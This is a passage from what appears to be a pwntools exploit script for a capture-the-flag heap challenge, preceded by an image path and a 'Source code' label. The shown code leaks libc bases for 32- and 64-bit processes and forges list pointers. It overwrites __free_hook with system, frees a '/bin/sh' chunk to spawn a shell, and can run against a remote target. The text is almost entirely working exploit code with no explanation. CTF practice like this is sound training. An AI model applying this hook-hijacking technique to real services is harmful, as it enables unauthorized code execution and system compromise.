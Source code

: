 ```python
	libc32.address -= 0x1b2c00
	info("libc32 : " + hex(libc32.address))
	info("libc64 : " + hex(libc64.address))
	
	buf = p32(list32+4*10) + p32(list32+4*12)
	buf+= p32(4) + p32(libc32.sym['__free_hook'])#8
	buf+= p32(8) + p32(bss32)#9
	buf = buf.ljust(4*8,'\x00')
	
	buf+= p64(list64+8*10) + p64(list64+8*12)
	buf+= p64(4) + p64(bss64)#8
	buf+= p64(8) + p64(libc64.sym['__free_hook'])#9
	buf+= '\n'
	edit(0,buf)
	edit(8,p32(libc32.sym['system']))
	edit(9,p64(libc64.sym['system']))
	add(0x20,0x20,'/bin/sh\n')
	dele(0x20)
	
	p.interactive()
	
if __name__ == "__main__":
	libc64 = ELF('/lib/x86_64-linux-gnu/libc.so.6',checksec=False)
	libc32 = ELF('/lib/i386-linux-gnu/libc.so.6',checksec=False)
	main(args["REMOTE"])
```





